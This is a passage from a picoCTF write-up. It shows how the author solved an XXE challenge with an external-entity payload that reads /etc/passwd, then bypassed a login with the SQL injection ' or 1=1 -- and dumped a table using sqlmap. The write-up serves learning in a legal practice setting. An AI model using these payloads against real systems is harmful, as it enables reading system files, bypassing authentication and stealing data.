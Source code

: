 So since its this we can perform XXE

After checking [HackTricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity) I made the payload to read the `/etc/passwd` file

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT data ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>
    <ID>&file;</ID>
</data>
```

On submitting that I got the flag
![image](https://user-images.githubusercontent.com/113513376/226237740-3c7b556f-6b87-4510-a74b-b9333ccf3f34.png)

```
Flag: picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}
```

#### More SQLi
![image](https://user-images.githubusercontent.com/113513376/226237913-bbe98b86-9897-4bd8-a3c3-fa43a3db0be8.png)

Checking the web server instance given shows this login page
![image](https://user-images.githubusercontent.com/113513376/226238001-5e21f53e-4277-4a8f-86bf-bc73b8255f81.png)

From the challenge title which is `SQLi` i'll try using sql injection to bypass the login page

```
Username: ' or 1=1 --
Password: ' or 1=1 --
```

Trying that works
![image](https://user-images.githubusercontent.com/113513376/226238142-1ea000a6-f98e-4bd8-9863-bc945b62d6c7.png)

There's another search functionality in the web app

So i'll search for something then intercept the request with burp
![image](https://user-images.githubusercontent.com/113513376/226238278-3ee33cdc-d8b1-4942-8455-60537cf3470a.png)

Then i will save the request in a file 
![image](https://user-images.githubusercontent.com/113513376/226238696-f125d72f-054f-47df-be34-90bcb75505e6.png)

With this i can use `sqlmap`
![image](https://user-images.githubusercontent.com/113513376/226238857-95a69707-23ad-4283-96be-9cef44b9c4c9.png)

Then I dump the whole table to see if any thing is of interest there 
![image](https://user-images.githubusercontent.com/113513376/226239183-9be7000a-89aa-41bc-bb45-2ef75238774c.png)
![image](https://user-images.githubusercontent.com/113513376/226239219-399755f0-5d37-4094-a5e8-06a027c69f77.png)
